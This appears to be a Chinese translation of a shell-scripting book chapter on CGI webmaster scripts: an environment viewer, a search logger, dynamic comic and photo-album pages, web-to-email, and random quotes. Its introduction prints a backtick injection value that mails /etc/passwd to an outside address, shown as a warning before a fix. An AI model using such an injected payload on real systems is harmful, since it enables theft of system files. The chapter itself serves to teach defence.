




## 8

**WEBMASTER HACKS**


除了提供一个很好的环境来构建与各种网站协作的巧妙命令行工具外，Shell 脚本还可以改变你自己网站的运作方式。你可以使用 Shell 脚本编写简单的调试工具，按需创建网页，甚至构建一个照片集浏览器，自动将上传到服务器的新图像合并进来。

本章中的脚本都是*通用网关接口（CGI）*脚本，用于生成动态网页。在编写 CGI 脚本时，你应时刻注意可能存在的安全风险。最常见的攻击之一就是攻击者通过一个易受攻击的 CGI 或其他 Web 语言脚本访问并利用命令行，令 Web 开发者措手不及。

请考虑一个看似无害的示例——一个 Web 表单收集用户的电子邮件地址，如示例 8-1 所示。处理表单的脚本将用户的信息存储在本地数据库中，并发送确认邮件。

```
( echo "Subject: Thanks for your signup"
  echo "To: $email ($name)"
  echo ""
  echo "Thanks for signing up. You'll hear from us shortly."
  echo "-- Dave and Brandon"
) | sendmail $email
```

*示例 8-1：向 Web 表单用户的地址发送电子邮件*

看起来没问题吧？现在，假设用户输入的不是像*taylor@intuitive.com*这样的正常电子邮件地址，而是类似于下面这样的内容：

```
`sendmail d00d37@das-hak.de < /etc/passwd; echo  taylor@intuitive.com`
```

你能看到其中潜伏的危险吗？这不仅仅是发送一封简短的电子邮件到指定地址，而是将你的*/etc/passwd*文件副本发送到一个不法分子，邮件地址是*@das-hak.de*，可能被用作对你系统安全发动有针对性的攻击。

因此，许多 CGI 脚本都是在更注重安全的环境中编写的——特别是带有`-w`选项的 Perl 脚本（即 Shell 脚本顶部的`!#`部分），这样如果数据来自外部源且未经过清洗或检查，脚本将会失败。

但是，Shell 脚本缺乏安全功能并不意味着它在 Web 安全领域中不重要。它只是意味着你需要意识到潜在的安全问题，并消除它们。例如，在示例 8-1 中的一个小改动就能防止潜在的黑客提供恶意外部数据，如在示例 8-2 中所示。

```
( echo "Subject: Thanks for your signup"
  echo "To: $email ($name)"
  echo ""
  echo "Thanks for signing up. You'll hear from us shortly."
  echo "-- Dave and Brandon"
) | sendmail -t
```

*示例 8-2：使用* `*-t*` 发送电子邮件

`-t`标志告诉`sendmail`程序扫描邮件内容以寻找有效的目标电子邮件地址。反引号内的内容不会出现在命令行中，因为它在`sendmail`队列系统中被解释为无效的电子邮件地址。它会安全地以一个名为*dead.message*的文件保存在你的主目录中，并被记录到系统错误日志文件中。

另一项安全措施是对从 Web 浏览器发送到服务器的信息进行编码。例如，编码后的反引号会实际发送到服务器（并交给 CGI 脚本处理）作为`%60`，Shell 脚本可以安全地处理这个信息而不会造成问题。

本章中所有 CGI 脚本的一个共同特点是，它们对编码字符串的解码非常有限：空格在传输过程中会被编码为 `+`，因此将其还原为空格是安全的。电子邮件地址中的 `@` 字符会被发送为 `%40`，因此也可以安全地转换回来。除此之外，清洗后的字符串可以无害地扫描是否存在 `%` 字符，并在遇到时生成错误。

最终，复杂的网站会使用比 shell 更强大的工具，但与本书中的许多解决方案一样，一段 20 到 30 行的 shell 脚本通常足以验证一个想法、证明一个概念或以快速、便捷、且合理高效的方式解决问题。

### 运行本章中的脚本

要运行本章中的 CGI shell 脚本，我们需要做的事情比仅仅正确命名脚本并保存它多一些。我们还必须将脚本放在正确的位置，这个位置由运行的 web 服务器的配置决定。为此，我们可以使用系统的包管理器安装 Apache web 服务器，并将其设置为运行我们新的 CGI 脚本。以下是如何使用 `apt` 包管理器操作的方法：

```
$ sudo apt-get install apache2
$ sudo a2enmod cgi
$ sudo service apache2 restart
```

通过 `yum` 包管理器安装应该非常相似。

```
# yum install httpd
# a2enmod cgi
# service httpd restart
```

安装并配置好后，你应该能够在你选择的操作系统的默认 *cgi-bin* 目录中开始开发脚本（Ubuntu 或 Debian 为 */usr/lib/cgi-bin/*，CentOS 为 */var/www/cgi-bin/*），然后在浏览器中通过 *http://<ip>/cgi-bin/script.cgi* 查看它们。如果脚本仍然以纯文本形式出现在浏览器中，请确保它们具有可执行权限，命令为 `chmod +x script.cgi`。

### #63 查看 CGI 环境

在我们为本章开发一些脚本时，苹果发布了其最新版本的 Safari 浏览器。我们立即产生了一个问题：“Safari 如何在 `HTTP_USER_AGENT` 字符串中标识自己？”对于使用 shell 编写的 CGI 脚本，找到答案很简单，如 清单 8-3 中所示。

#### *代码*

```
   #!/bin/bash

   # showCGIenv--Displays the CGI runtime environment, as given to any
   #   CGI script on this system

   echo "Content-type: text/html"
   echo ""

   # Now the real information...

   echo "<html><body bgcolor=\"white\"><h2>CGI Runtime Environment</h2>"
   echo "<pre>"
➊ env || printenv
   echo "</pre>"
   echo "<h3>Input stream is:</h3>"
   echo "<pre>"
   cat -
   echo "(end of input stream)</pre></body></html>"

   exit 0
```

*清单 8-3：* `*showCGIenv*` *脚本*

#### *工作原理*

当一个查询从 web 客户端发送到 web 服务器时，查询序列包含了一些环境变量，这些环境变量是由 web 服务器（在本例中为 Apache）传递给指定的脚本或程序（即 CGI）的。这个脚本通过使用 shell 的 `env` 命令 ➊ 显示这些数据——为了最大程度的可移植性，它会在 `env` 调用失败时使用 `printenv`，这是 `||` 符号的目的——脚本的其余部分是必要的包装信息，用于将结果通过 web 服务器反馈到远程浏览器。

#### *运行脚本*

要运行代码，你需要将脚本文件放置在你的网站服务器上并确保其可执行。（有关更多细节，请参见 “运行本章中的脚本” 以及第 201 页）。然后，只需在网页浏览器中请求保存的 *.cgi* 文件。结果如图 8-1 所示。



*图 8-1: 从 shell 脚本中获取的 CGI 运行时环境*

#### *结果*

了解 Safari 如何通过 `HTTP_USER_AGENT` 变量识别自己非常有用，如示例 8-4 所示。

```
HTTP_USER_AGENT=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_1)
AppleWebKit/601.2.7 (KHTML, like Gecko) Version/9.0.1 Safari/601.2.7
```

*示例 8-4: `*HTTP_USER_AGENT*` 环境变量在 CGI 脚本中的使用*

所以 Safari 版本 601.2.7 属于 Mozilla 5.0 浏览器类别，运行在 Intel 架构的 OS X 10.11.1 上，使用 KHTML 渲染引擎。所有这些信息，都被压缩到一个变量中！

### #64 记录 Web 事件

一个很酷的 shell 脚本使用案例是通过包装器记录事件。假设你想在你的网页上放置一个 DuckDuckGo 搜索框。你不希望直接将查询提交给 DuckDuckGo，而是希望先记录下来，看看访客搜索的内容是否与你网站上的内容相关。

首先，稍微需要一些 HTML 和 CGI。网页上的输入框是通过 HTML `<form>` 标签创建的，当点击表单按钮提交表单时，它会将用户输入发送到表单的 `action` 属性值指定的远程网页。任何网页上的 DuckDuckGo 查询框可以简化为以下内容：

```
<form method="get" action="">
Search DuckDuckGo:
<input type="text" name="q">
<input type="submit" value="search">
</form>
```

我们并不是直接将搜索模式传递给 DuckDuckGo，而是希望将其传递给我们自己服务器上的脚本，脚本会记录模式然后将查询重定向到 DuckDuckGo 服务器。因此，表单只有一个小小的变化：`action` 字段变为指向本地脚本，而不是直接调用 DuckDuckGo：

```
<!-- Tweak action value if script is placed in /cgi-bin/ or other -->
<form method="get" action="log-duckduckgo-search.cgi">
```

`log-duckduckgo-search` CGI 脚本非常简单，如示例 8-5 所示。

#### *代码*

```
#!/bin/bash

# log-duckduckgo-search--Given a search request, logs the pattern and then
#   feeds the entire sequence to the real DuckDuckGo search system

# Make sure the directory path and file listed as logfile are writable by
#   the user that the web server is running as.
logfile="/var/www/wicked/scripts/searchlog.txt"

if [ ! -f $logfile ] ; then
  touch $logfile
  chmod a+rw $logfile
fi

if [ -w $logfile ] ; then
  echo "$(date): ➊$QUERY_STRING" | sed 's/q=//g;s/+/ /g' >> $logfile
fi

echo "Location: https://duckduckgo.com/html/?$QUERY_STRING"
echo ""

exit 0
```

*示例 8-5: `*log-duckduckgo-search*` 脚本*

#### *工作原理*

脚本中最显著的元素与 web 服务器和 web 客户端如何通信有关。输入到搜索框中的信息作为变量 `QUERY_STRING` ➊ 发送到服务器，通过将空格替换为 `+` 符号并将其他非字母数字字符替换为适当的字符序列来进行编码。然后，当搜索模式被记录时，所有的 `+` 符号会安全、简便地转回为空格。否则，搜索模式不会被解码，以防止用户尝试一些复杂的黑客手段。（有关更多细节，请参阅本章引言。）

登录后，网页浏览器会被重定向到实际的 DuckDuckGo 搜索页面，并带有 `Location:` 头部值。请注意，简单地在末尾添加 `?$QUERY_STRING` 就足以将搜索模式传递到最终目的地，无论模式多么简单或复杂。

这个脚本生成的日志文件在每个查询字符串前都加上当前的日期和时间，从而构建一个数据文件，不仅显示流行的搜索内容，还可以按一天中的时间、星期几、月份等进行分析。这个脚本能揭示许多关于繁忙网站的信息！

#### *运行脚本*

要真正使用这个脚本，你需要创建 HTML 表单，并且该脚本需要可执行并位于你的服务器上。（有关更多细节，请参见本章运行脚本，见第 201 页。）然而，我们可以通过使用`curl`来测试脚本。要测试脚本，执行一个带有`q`参数（搜索查询）的 HTTP 请求：

```
$ curl "10.37.129.5/cgi-bin/log-duckduckgo-search.cgi?q=metasploit"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://duckduckgo.com/
html/?q=metasploit">here</a>.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 10.37.129.5 Port 80</address>
</body></html>
$
```

然后，通过将搜索日志的内容打印到控制台屏幕上来验证搜索是否已被记录：

```
$ cat searchlog.txt
Thu Mar 9 17:20:56 CST 2017: metasploit
$
```

#### *结果*

在网页浏览器中打开脚本时，结果来自 DuckDuckGo，正如预期的那样，见图 8-2。



*图 8-2：DuckDuckGo 搜索结果出现了，但搜索已经被记录！*

在一个繁忙的网站上，你无疑会发现使用命令`tail -f searchlog.txt`来监控搜索非常有帮助，因为你可以了解人们在线上搜索什么。

#### *破解脚本*

如果搜索框在网站的每一页上都可以使用，那么知道用户在进行搜索时所在的页面将会很有用。这可能会为你提供有关特定页面是否足够清晰的有价值见解。例如，用户是否总是在某个页面上搜索以寻求更多的说明？记录额外的用户搜索页面信息（如`Referer` HTTP 头）将是对脚本的一个很好的补充。

### #65 动态构建网页

许多网站上的图形和其他元素会每天变化。像 Bill Holbrook 的*Kevin & Kell*这样的网络漫画就是一个很好的例子。在他的网站上，主页总是展示最新的漫画，而该站点为单个漫画使用的图像命名规则很容易逆向工程，这使得你能够将漫画添加到自己的网站上，正如示例 8-6 所示。

**警告**

*来自我们的律师的声明：当你从另一个网站抓取内容并用于自己的站点时，涉及许多版权问题。对于这个例子，我们已经从 Bill Holbrook 那里获得了明确许可，允许我们将他的漫画条目收录到这本书中。在你开始做之前，我们鼓励你获得许可，以便在自己的网站上复制任何受版权保护的材料，避免将自己陷入律师包围的深坑。*

#### *代码*

```
#!/bin/bash

# kevin-and-kell--Builds a web page on the fly to display the latest
#   strip from the cartoon "Kevin and Kell" by Bill Holbrook.
#   <Strip referenced with permission of the cartoonist>

month="$(date +%m)"
  day="$(date +%d)"
 year="$(date +%y)"

echo "Content-type: text/html"
echo ""

echo "<html><body bgcolor=white><center>"
echo "<table border=\"0\" cellpadding=\"2\" cellspacing=\"1\">"
echo "<tr bgcolor=\"#000099\">"
echo "<th><font color=white>Bill Holbrook's Kevin &amp; Kell</font></th></tr>"
echo "<tr><td>"
echo "</td></tr><tr><td align=\"center\">"
echo "&copy; Bill Holbrook. Please see "
echo "<a href=\"http://www.kevinandkell.com/\">kevinandkell.com</a>"
echo "for more strips, books, etc."
echo "</td></tr></table></center></body></html>"

exit 0
```

*示例 8-6：*`*kevin-and-kell*`* 脚本*

#### *工作原理*

快速查看*Kevin & Kell*主页的源代码可以发现，给定漫画的 URL 是由当前的年份、月份和日期构建的，如下所示：

```
http://www.kevinandkell.com/2016/strips/kk20160804.jpg
```

要动态生成包含该漫画的页面，脚本需要获取当前的年份（两位数），月份和日期（如果需要，前面加零）。其余部分只是 HTML 包装器，用来美化页面。实际上，考虑到最终功能，这个脚本非常简单。

#### *运行脚本*

与本章其他 CGI 脚本一样，这个脚本必须放置在一个合适的目录中，以便通过网络访问，并且具有适当的文件权限。然后，只需从浏览器中调用正确的 URL 即可。

#### *结果*

该网页每天都会自动更新。对于 2016 年 8 月 4 日的漫画，结果页面如图 8-3 所示。


*图 8-3：*Kevin & Kell*网页，动态生成*

#### *破解脚本*

如果你有灵感，这个概念几乎可以应用于网络上的任何事物。你可以抓取 CNN 或*南华早报*的头条新闻，或者从杂乱的网站获取一个随机广告。同样，如果你打算将内容作为你网站的一部分，确保它是公共领域内容，或者你已经获得了授权。

### #66 将网页转化为电子邮件消息

通过将逆向工程文件命名约定与脚本#62 中展示的网页跟踪工具相结合，你可以将一个网页自动通过电子邮件发送给自己，该网页不仅会更新内容，还会更新文件名。这个脚本不需要使用 Web 服务器即可发挥作用，可以像书中其他脚本一样运行。不过，值得注意的是：Gmail 和其他电子邮件服务商可能会过滤通过本地 Sendmail 工具发送的电子邮件。如果你没有收到以下脚本发送的邮件，可以尝试使用类似 Mailinator 的服务（* [`mailinator.com/`](http://mailinator.com/) *）进行测试。

#### *代码*

举个例子，我们将使用*Cecil Adams*为*Chicago Reader*写的幽默专栏《The Straight Dope》。如清单 8-7 所示，自动将新的《Straight Dope》专栏通过电子邮件发送到指定地址是非常直接的。

```
   #!/bin/bash

   # getdope--Grabs the latest column of "The Straight Dope."
   #   Set it up in cron to be run every day, if so inclined.

   now="$(date +%y%m%d)"
   start="http://www.straightdope.com/ "
   to="testing@yourdomain.com"   # Change this as appropriate.

   # First, get the URL of the current column.

➊ URL="$(curl -s "$start" | \
   grep -A1 'teaser' | sed -n '2p' | \
   cut -d\" -f2 | cut -d\" -f1)"

   # Now, armed with that data, produce the email.

   ( cat << EOF
   Subject: The Straight Dope for $(date "+%A, %d %B, %Y")
   From: Cecil Adams <dont@reply.com>
   Content-type: text/html
   To: $to

   EOF

   curl "$URL"
   ) | /usr/sbin/sendmail -t

   exit 0
```

*清单 8-7：*`*getdope*`*脚本*

#### *它是如何工作的*

最新专栏的页面有一个 URL，你需要从主页中提取出来，但检查源代码会发现，每个专栏在源代码中都用`class="teaser"`标识，而且最新的专栏总是出现在页面的最前面。这意味着，从➊开始的简单命令序列应该能够提取出最新专栏的 URL。

`curl`命令抓取主页的源代码，`grep`命令输出每个匹配的“teaser”行及其后的一行，`sed`使得我们可以轻松提取结果输出的第二行，以便获取最新的文章。

#### *运行脚本*

要提取 URL，只需省略第一个双引号之前的所有内容以及第一个引号之后的所有内容。可以在命令行上逐步测试，查看每一步的结果。

#### *结果*

虽然简洁，这个脚本展示了一个复杂的 Web 用法，从一个网页中提取信息，并作为后续调用的基础。

因此，生成的电子邮件包含页面上的所有内容，包括菜单、图片以及所有页脚和版权信息，如 Figure 8-4 所示。



*Figure 8-4: 将最新的* Straight Dope *文章直接发送到你的收件箱*

#### *黑客脚本*

有时你可能希望在周末坐下来一两个小时，阅读过去一周的文章，而不是每天都去查看一封电子邮件。这类汇总邮件通常称为 *电子邮件摘要*，它们可以让你一次性浏览更加轻松。一个不错的黑客技巧是更新脚本，将过去七天的文章全部发送到一个邮件中，在一周结束时发送出去。这样还能减少你在一周内收到的邮件数量！

### #67 创建一个基于 Web 的照片相册

CGI Shell 脚本不仅仅局限于处理文本。网站的一个常见用途是作为相册，允许你上传大量图片，并且有一些软件来帮助整理所有内容，使浏览变得更加简便。令人惊讶的是，使用 shell 脚本生成目录中的基本“照片清单”非常简单。 Listing 8-8 中展示的脚本只有 44 行。

#### *代码*

```
   #!/bin/bash
   # album--Online photo album script
   echo "Content-type: text/html"
   echo ""

   header="header.html"
   footer="footer.html"
    count=0

   if [ -f $header ] ; then
     cat $header
   else
     echo "<html><body bgcolor='white' link='#666666' vlink='#999999'><center>"
   fi

   echo "<table cellpadding='3' cellspacing='5'>"

➊ for name in $(file /var/www/html/* | grep image | cut -d: -f1)
   do
     name=$(basename $name)
     if [ $count -eq 4 ] ; then
       echo "</td></tr><tr><td align='center'>"
       count=1
     else
       echo "</td><td align='center'>"
       count=$(( $count + 1 ))
     fi

➋   nicename="$(echo $name | sed 's/.jpg//;s/-/ /g')"

     echo "<a href='../$name' target=_new></a><BR>"
     echo "<span style='font-size: 80%'>$nicename</span>"
   done

   echo "</td></tr></table>"

   if [ -f $footer ] ; then
     cat $footer
   else
     echo "</center></body></html>"
   fi

   exit 0
```

*Listing 8-8: The* `*album*` *script*

#### *它是如何工作的*

这里几乎所有的代码都是 HTML，用于创建吸引人的输出格式。去掉 `echo` 语句，剩下的就是一个简单的 `for` 循环，它遍历 */var/www/html* 目录 ➊ 中的每个文件（这是 Ubuntu 14.04 中的默认 Web 根目录），并通过 `file` 命令识别图像文件。

该脚本在文件命名约定上效果最好，其中每个文件名使用短横线替代空格。例如，*sunset-at-home.jpg* 的 `name` 值被转换为 `nicename` ➋ 的 *sunset at home*。这是一个简单的转换，但它使得相册中的每张图片都有一个吸引人且易于阅读的名称，而不是像 *DSC00035.JPG* 这样不美观的文件名。

#### *运行脚本*

要运行此脚本，只需将其放入一个包含 JPEG 图片的目录中，并将脚本命名为 *index.cgi*。如果你的 web 服务器配置正确，直接请求查看该目录会自动调用 *index.cgi*，前提是该目录中没有 *index.html* 文件。现在你拥有了一个即时的动态相册。

#### *结果*

给定一个包含风景照片的目录，结果非常令人满意，如 Figure 8-5 所示。请注意，*header.html* 和 *footer.html* 文件存在于相同的目录中，因此它们也会自动包含在输出中。



*Figure 8-5：一个用 44 行 shell 脚本创建的即时在线相册！*

#### *破解脚本*

这个脚本的一个限制是，必须下载每张照片的完整尺寸版本，才能显示照片相册视图。如果你有十几张 100MB 的照片文件，那么对于一个连接较慢的人来说，可能需要相当长的时间。而且缩略图并不比原图小。解决方案是自动创建每张图片的缩放版本，这可以通过使用像 ImageMagick 这样的工具在脚本中完成（详见 Script #97 第 322 页）。不幸的是，很少有 Unix 安装包含这种复杂的图形工具，所以如果你想在这个方向扩展该相册，可以从学习更多关于 ImageMagick 的内容开始，访问 *[`www.imagemagick.org/`](http://www.imagemagick.org/)*。

扩展这个脚本的另一种方法是教它显示可点击的文件夹图标，以便任何子目录都能显示出来，从而使相册充当一个完整的文件系统或照片树，按组合方式组织成作品集。

这个相册脚本一直是我们最喜欢的。令人高兴的是，将它作为一个 shell 脚本非常容易以成千上万种方式扩展其功能。例如，通过使用名为 `showpic` 的脚本来显示较大的图像，而不仅仅是链接到 JPEG 图像，约 15 分钟就能实现一个每张图像的计数系统，让人们看到哪些图像最受欢迎。

### #68 显示随机文本

许多 web 服务器提供内置的 *服务器端包含（SSI）* 功能，这允许你调用一个程序，将一行或多行文本添加到正在服务给访客的网页中。这为扩展网页提供了许多极好的方法。我们最喜欢的一种方法是每次加载页面时更改网页的某个元素。这个元素可能是一个图形、一个新闻片段、一个推荐的子页面，或者是网站本身的标语，每次访问时稍微不同，保持读者的兴趣。

值得注意的是，这个技巧通过一个仅包含几行 `awk` 程序的 shell 脚本就能轻松实现，该脚本可以通过 SSI 或 *iframe*（一种通过不同 URL 服务页面部分内容的方法）从网页中调用。该脚本如 Listing 8-9 所示。

#### *代码*

```
#!/bin/bash

# randomquote--Given a one-line-per-entry datafile,
#   randomly picks one line and displays it. Best used
#   as an SSI call within a web page.

awkscript="/tmp/randomquote.awk.$$"

if [ $# -ne 1 ] ; then
  echo "Usage: randomquote datafilename" >&2
  exit 1
elif [ ! -r "$1" ] ; then
  echo "Error: quote file $1 is missing or not readable" >&2
  exit 1
fi

trap "$(which rm) -f $awkscript" 0

cat << "EOF" > $awkscript
BEGIN { srand() }
      { s[NR] = $0 }
END   { print s[randint(NR)] }
function randint(n) { return int (n * rand() ) + 1 }
EOF

awk -f $awkscript < "$1"

exit 0
```

*Listing 8-9：* `*randomquote*` *脚本*

#### *它是如何工作的*

给定一个数据文件的名称，脚本首先检查文件是否存在且可读取。然后，它将整个文件传递给一个简短的`awk`脚本，该脚本将每一行存储在数组中，统计行数，然后随机选择数组中的一行并打印到屏幕上。

#### *运行脚本*

脚本可以通过以下代码行集成到 SSI 兼容的网页中：

```
<!--#exec cmd="randomquote.sh samplequotes.txt"-->
```

大多数服务器要求使用*.shtml*文件扩展名，而不是传统的*.html*或*.htm*，用于包含此服务器端包含内容的网页。通过这个简单的更改，`randomquote`命令的输出被嵌入到网页内容中。

#### *结果*

你可以通过直接在命令行中调用脚本来测试它，如清单 8-10 所示。

```
$ randomquote samplequotes.txt
Neither rain nor sleet nor dark of night...
$ randomquote samplequotes.txt
The rain in Spain stays mainly on the plane? Does the pilot know about this?
```

*清单 8-10：运行* `*randomquote*` *脚本*

#### *破解脚本*

你可以将`randomquote`使用的数据文件包含一个图像名称列表。然后，你可以使用这个脚本来循环显示一组图像。一旦你考虑到这一点，你会发现这个想法可以做很多事情。
